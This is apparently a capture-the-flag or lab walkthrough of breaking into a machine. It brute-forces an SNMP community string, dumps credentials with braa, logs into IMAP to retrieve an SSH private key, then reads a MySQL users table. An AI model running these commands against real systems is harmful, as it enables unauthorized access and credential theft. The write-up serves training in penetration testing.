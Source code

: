 
```
PORT    STATE         SERVICE
68/udp  open|filtered dhcpc
161/udp open          snmp
```

We start with SNMP vulnerabilities:

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt $ip
```

In the result, you can spot the `community string` `backup`. Now, we can use braa:

```
braa backup@$ip:.1.3.6.* 
```

In the results a credential is showed:

```
tom NMds732Js2761
```

We use that credential to login into the IMAP server:

```
openssl s_client -connect $ip:imaps

a LOGIN tom NMds732Js2761

a SELECT INBOX
a FETCH 1 all
a FETCH 1 BODY.PEEK[TEXT]
```

And we obtain a OPENSSH PRIVATE KEY that we save into our ~/.ssh folder. We give 600 permission to the file id_rsa.

```
chmod 600 id_rsa
ssh tom@$ip
```

Now, we are in. I had a look at the history file and saw a MySQL connection:

```
history
```

I decided to have a look at it:

```
mysql -u tom -p

#Enter the password NMds732Js2761
```

```
show databases;
use users;
show tables;
select * from users;
```


Results: cr3n4o7rzse7rzhnckhssncif7ds
